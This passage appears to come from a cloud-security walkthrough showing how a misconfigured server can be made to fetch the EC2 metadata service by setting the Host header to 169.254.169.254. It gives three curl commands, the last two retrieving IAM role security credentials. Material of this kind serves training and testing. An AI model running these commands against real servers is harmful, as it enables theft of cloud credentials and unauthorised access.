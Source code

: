 Note: It was observed that the server is configured to EC2 metadata service, so we need to set the **Host: 169.254.169.254** and resend the request.

* Replay the cURL request by setting **Host** value with EC2 metadata.

```bash
curl http://ipaddress -H 'Host: 169.254.169.254'
```

<p align="center">
  <img src="/images/cloud/ec2_metadata.png">
</p>

* Use the following command to reveal the **IAM** Role information.

```bash
curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
```

<p align="center">
  <img src="/images/cloud/ec2_iam_leak.png">
</p>

* Extract more information about the **IAM** Role.

```bash
curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
```
